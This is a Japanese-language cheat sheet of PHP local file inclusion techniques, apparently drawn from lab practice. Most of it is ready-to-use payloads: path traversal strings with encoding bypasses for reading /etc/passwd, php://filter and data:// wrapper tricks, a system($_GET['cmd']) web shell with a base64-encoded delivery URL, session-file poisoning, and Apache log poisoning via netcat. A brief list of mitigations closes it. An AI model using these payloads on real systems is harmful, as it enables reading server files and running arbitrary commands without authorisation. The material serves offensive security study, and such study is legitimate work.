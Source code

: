 # ファイルインクルージョン

## LFI

### パストラバーサル

```php
# Nullバイト追加で文字列の結合を無効化する
# PHP 5.3.4 以降では機能しない
include("languages/../../../../../etc/passwd%00").".php");
↓
include("languages/../../../../../etc/passwd");
```

```shell
# カレントディレクトリトリック
http://webapp.thm/index.php?lang=/etc/passwd/.
```

```shell
# ../ を削除するフィルターへの対抗例
....//....//....//....//etc/passwd
↓
../../../../etc/passwd

# ../ を URL エンコード %2e%2e%2f
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd

# 二重エンコード（アプリケーションが2回エンコードする場合）
%252e%252e%252f
```

### ラッパー

### PHP ラッパー

```php
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/string.rot13/resource=/etc/passwd
php://filter/string.toupper/resource=/etc/passwd
php://filter/string.tolower/resource=/etc/passwd
php://filter/string.strip_tags/resource=/etc/passwd
```

#### Data ラッパー

```php
data:text/plain,<?php%20phpinfo();%20?>
```

#### ラッパーによる RCE

cmd パラメータで指定したコマンドを実行するペイロード

```php
<?php system($_GET['cmd']); echo 'Shell done!'; ?>
```

Base64 エンコードされたペイロードをデコードするフィルター

```php
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

脆弱性のある URL に、whoami を実行させるリクエストを送信

```shell
http://ip/foo.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami
```

### PHP セッションファイル

下記の脆弱なサーバーコードがあるとする。

```php
if(isset($_GET['page'])){
    $_SESSION['page'] = $_GET['page'];
    echo "You're currently in" . $_GET["page"];
    include($_GET['page']);
}
```

```text
http://ip/foo.php?page=<?php echo phpinfo(); ?>
```

リクエストを送ると、サーバーコードの 2 行目によって、攻撃者が送った PHP コードがセッションファイルに保存される。  
次に、

```text
http://ip/foo.php?page=/var/lib/php/sessions/sess_[sessionID]
```

リクエストを送ると、サーバーコードの 4 行目によって、phpinfo()が実行される。

### ログポイズニング

下記のリクエストを送ると、PHP コード（2 行目の部分）がアクセスログに保存される。  
その後、/var/log/apache2/access.log を include することで PHP コードを実行させる。  

```shell
$ nc 10.10.5.212 80
<?=`$_GET[0]`?>
HTTP/1.1 400 Bad Request
Date: Thu, 23 Nov 2023 05:39:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 335
Connection: close
Content-Type: text/html; charset=iso-8859-1
HTTP/1.1 400 Bad Request
Date: Tue, 07 Jan 2025 01:19:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 333
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at ip-10-10-5-212.eu-west-1.compute.internal Port 80</address>
</body></html>
```

パス

```text
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

## RFI

## セキュリティ

- ユーザー入力の検証
- フレームワークを含むシステムのアップデート
- PHP エラーを OFF にする
- Web アプリケーションファイアウォール（WAF）
- 可能であれば allow_url_fopen, allow_url_include 等のオプション OFF
- ファイル名と場所のホワイトリストとブラックリストの実装
